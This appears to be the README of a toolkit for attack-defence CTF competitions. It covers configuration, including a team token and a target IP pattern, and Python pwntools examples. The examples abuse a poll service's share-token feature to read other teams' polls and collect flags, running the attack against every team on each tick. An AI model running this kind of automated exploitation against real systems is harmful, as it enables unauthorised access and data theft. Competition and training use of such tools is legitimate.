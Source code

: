 # A collection of scripts to simplify testing and deploying attacks in attack-defence CTFs
All you need to do is write the exploit for a single target! `test_attack` will 
help you check that everything works as intended. Before every game tick, `deploy` dinamically loads the configuration and any new exploits. Easy to configure through `config.py`, with a dedicated process for every type of attack and in that process a thread for each target.

## Requirements
- `docker compose` for simple MongoDB setup. Alternatively, you can host the database yourself.
- `pip install -r requirements.txt`

## Configuration
At the start of the challenge, remember to properly edit `config.py` 
```python
log_level = "info" # can be debug, info, warn, error
team_id = 77
highest_id = 86
TEAM_TOKEN = "b0d9d5b0307be878aa00e935e230d2d"
max_time = 60 # every thread (attack against a single target) gets at most max_time seconds, after which it's stopped and a warning is printed
tick_duration = 120 # how long is every game tick in seconds
flag_regex = "[A-Z0-9]{31}="
baseip = "10.60.{id}.1"
db_url = "mongodb://localhost:27017/"
```

## Usage
1. Build the database and start deploy.py
```sh
git clone https://github.com/parmigggiana/attack_scripts.git
cd attack_scripts
docker compose up --build -d && python3 deploy.py 
```

2. Edit the `exploit` function inside `test_attack.py`.
You can use the following decorators:
- `@local_test` to attack localhost
- `@nop_test` to attack the nop_team
- `@self_test` to attack your team_ip

2. Copy your `exploit()` and all auxiliary functions to a new file inside `config/exploits/`.
Give it a meaningful name and make sure the file and the exploit function 
have the same name. You can take a look at `config/exploits/example.py` for a reference.

3. Make sure to only keep
the necessary `log.info` and remove all `print`. Consider
switching them to `log.debug`. The console is gonna get busy! 
Edit every function printing to stdout so that it is surrounded by `l.acquire()` and `l.release()` (This is not essential, but with this many parallel processes and threads the sometimes print on the same line. It keeps the output tidy). 

4. Done! If `deploy.py` is already running it will automatically load all new exploits before the next game tick (but don't forget to save the files lmao).

## Examples
File `test_attack.py` 
```python
import json
import requests
import uuid
from pwn import remote, log

from ctf_suite import local_test


@local_test
def exploit(target_ip):
    def get_polls_dict():
        flag_ids_url = "http://10.10.0.1:8081/flagIds"

        res = requests.get(flag_ids_url)
        # print(res.text)
        victims_dict = res.json()["Polls"]
        victim_polls = victims_dict[str(target_ip)]
        return victims_dict

    log.info(f"{__name__} against {target_ip}!")

    try:
        p = remote(target_ip, 5000)
    except:
        log.debug(f"{target_ip}'s service is down!")
        return []

    flags = []
    p.recvuntil(b"]: ")
    p.sendline(b"register")
    p.sendlineafter(b"username: ", uuid.uuid4().hex.encode("ascii"))
    p.sendlineafter(b"password: ", uuid.uuid4().hex.encode("ascii"))
    p.recv(timeout=0.5)

    for poll in get_polls_dict():
        poll = json.loads(poll)
        poll_id = poll["poll_id"]
        username = poll["username"]
        log.debug(f"{poll_id = }, {username = }")

        p.sendline(b"access poll")
        p.sendlineafter(b"back): ", b"share")
        p.recv(timeout=0.5)
        p.sendline(poll_id.encode("ascii"))
        data = p.recv(timeout=0.5)
        if "not" in str(data):
            log.debug(f"{target_ip} patched this vulnerability!")
            break

        token = str(data).split(": ")[1][:-3]
        log.debug(f"{token = }")
        p.sendlineafter(b"exit]: ", b"use token")
        p.sendlineafter(b"Token: ", token)
        p.sendlineafter(b"exit]: ", b"access poll")
        p.sendlineafter(b"back): ", b"show")
        p.sendlineafter(b"id: ", poll_id)

        data = p.recv(timeout=0.5)
        flag = str(data).split(", ")[0]
        flag = str.replace(flag, "\\n", "")
        flag = str.replace(flag, " ", "")

        flags.append(flag[2:])

    log.success(f"{flags}")
    return flags

def main():
    exploit()  # type: ignore


if __name__ == "__main__":
    main()
```
After we get this working, we create a new file `config/exploits/share.py`
```python
import json
import requests
import uuid
from pwn import remote, log

from .common import stdout_lock as l


def share(target_ip):
    def get_polls_dict():
        flag_ids_url = "http://10.10.0.1:8081/flagIds"

        res = requests.get(flag_ids_url)
        # print(res.text)
        victims_dict = res.json()["Polls"]
        victim_polls = victims_dict[str(target_ip)]
        return victims_dict

    l.acquire()
    log.debug(f"{__name__} against {target_ip}!")
    l.release()
    try:
        p = remote(target_ip, 5000)
    except:
        l.acquire()
        log.debug(f"{target_ip}'s service is down!")
        l.release()
        return []

    flags = []
    p.recvuntil(b"]: ")
    p.sendline(b"register")
    p.sendlineafter(b"username: ", uuid.uuid4().hex.encode("ascii"))
    p.sendlineafter(b"password: ", uuid.uuid4().hex.encode("ascii"))
    p.recv(timeout=0.5)

    for poll in get_polls_dict():
        poll = json.loads(poll)
        poll_id = poll["poll_id"]
        username = poll["username"]
        l.acquire()
        log.debug(f"{poll_id = }, {username = }")
        l.release()

        p.sendline(b"access poll")
        p.sendlineafter(b"back): ", b"share")
        p.recv(timeout=0.5)
        p.sendline(poll_id.encode("ascii"))
        data = p.recv(timeout=0.5)
        if "not" in str(data):
            l.acquire()
            log.debug(f"{target_ip} patched this vulnerability!")
            l.release()
            return []

        token = str(data).split(": ")[1][:-3]
        l.acquire()
        log.debug(f"{token = }")
        l.release()
        p.sendlineafter(b"exit]: ", b"use token")
        p.sendlineafter(b"Token: ", token)
        p.sendlineafter(b"exit]: ", b"access poll")
        p.sendlineafter(b"back): ", b"show")
        p.sendlineafter(b"id: ", poll_id)

        data = p.recv(timeout=0.5)
        flag = str(data).split(", ")[0]
        flag = str.replace(flag, "\\n", "")
        flag = str.replace(flag, " ", "")

        flags.append(flag[2:])
    l.acquire()
    log.success(f"{flags}")
    l.release()
    return flags
```